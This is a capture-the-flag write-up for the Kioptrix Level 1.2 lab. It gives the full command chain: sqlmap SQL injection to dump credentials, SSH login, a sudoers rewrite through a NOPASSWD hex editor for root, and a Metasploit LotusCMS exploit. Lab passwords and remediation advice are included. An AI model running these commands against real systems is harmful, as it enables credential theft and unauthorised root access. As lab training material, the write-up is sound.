



# Kioptrix: Level 1.2 (#3) — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Easy/Intermediate |
| **OS** | Linux |
| **Root Flag** | `congrats.txt` in `/root` |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/) |

## Attack Summary

`nmap` → gallery SQLi (sqlmap) → SSH credentials recovered → `sudo ht` on `/etc/sudoers` → `sudo su` → root

## Methodology

1. Network discovery and port scan
2. Add `kioptrix3.com` to `/etc/hosts`
3. SQL injection on gallery via sqlmap
4. SSH login with recovered credentials
5. Privilege escalation via `sudo ht` (text editor with NOPASSWD)

---

## Step 1: Network Discovery and Port Scan

```bash
sudo netdiscover -i eth1 -r 192.168.56.0/24
nmap -A 192.168.1.101
```

Open ports:
- Port 22: OpenSSH
- Port 80: Apache (LotusCMS)



---

## Step 2: Add Hosts Entry

The web application relies on a virtual host. Add the entry before browsing:

```bash
echo "192.168.1.101 kioptrix3.com" >> /etc/hosts
```

Navigate to `http://kioptrix3.com`.

---

## Step 3: SQL Injection on Gallery

Browse to `http://kioptrix3.com/gallery/gallery.php?id=1` and append `'` — a SQL error confirms injection.

Enumerate databases with sqlmap:

```bash
sqlmap -u "kioptrix3.com/gallery/gallery.php?id=1" --dbs --batch
```

Dump the credentials table:

```bash
sqlmap -u "kioptrix3.com/gallery/gallery.php?id=1" -T dev_accounts --dump
```

Recovered credentials from `dev_accounts`:
- `loneferret` / `starwars`
- `dreg` / `Mast3r`




---

## Step 4: SSH Login

```bash
ssh loneferret@192.168.1.101
# password: starwars
```

Explore the home directory:

```bash
ls
cat CompanyPolicy.README
```

The README hints at using `sudo` with the `ht` text editor.

---

## Step 5: Privilege Escalation via `sudo ht`

Check sudo permissions:

```bash
sudo -l
```

Output:
```
(root) NOPASSWD: /usr/local/bin/ht
```

The `ht` hex editor can open any file as root. Use it to modify `/etc/sudoers`.

```bash
export TERM=xterm-color
sudo ht /etc/sudoers
```

In `ht`: press `F3` to open a file, navigate to the `loneferret` entry, and change it from:

```
loneferret ALL=NOPASSWD: !/usr/bin/su, /usr/local/bin/ht
```

to:

```
loneferret ALL=(ALL) NOPASSWD: ALL
```

Save and exit. Then escalate:

```bash
sudo su
id
# uid=0(root)
cd /root
cat congrats.txt
```




---

## Alternate Path: LotusCMS Metasploit

```bash
msfconsole
use exploit/multi/http/lcms_php_exec
set RHOST 192.168.1.101
set URI /
exploit
```

From the shell, read `/var/www/gallery/gconfig.php` for MySQL credentials (root / fuckeyou), then browse phpMyAdmin for password hashes.

---

## Lessons Learned

1. **SQL injection in URL parameters** is easily found by appending `'` — parameterize all queries.
2. **Credentials stored in database** are accessible via SQLi — hashes should be salted and stored with bcrypt, not MD5.
3. **`sudo` on interactive text editors** (vim, ht, nano) is equivalent to giving root access — restrict sudo to non-interactive binaries only.
4. **Sudoers editing without authentication** is a complete privilege escalation path on its own.

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SQLi in gallery.php | Parameterized queries; input validation |
| MD5 password hashes | Migrate to bcrypt/Argon2 with salts |
| `sudo ht` NOPASSWD | Remove editor from sudoers; never allow editors in sudoers |
| LotusCMS RCE | Upgrade or replace the CMS |
